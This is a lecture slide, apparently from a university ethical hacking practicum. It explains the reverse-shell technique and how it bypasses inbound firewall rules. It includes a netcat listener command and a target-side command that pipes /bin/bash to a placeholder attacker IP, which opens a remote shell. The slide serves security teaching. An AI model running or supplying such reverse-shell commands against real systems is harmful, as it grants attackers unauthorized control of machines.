

# Reverse shell
Attacker listens on a port and target connects to attacker

This gets around inbound firewall restrictions

Doing this with netcat
Attacker: nc –l –p <port>
Target: nc <attacker IP> <port> -e /bin/bash

Target runs /bin/bash and sends the session to netcat.	This results in the  attacker receiving a shell to the target machine.
Real-world systems: ethical hacking practicum – UW Summer 2021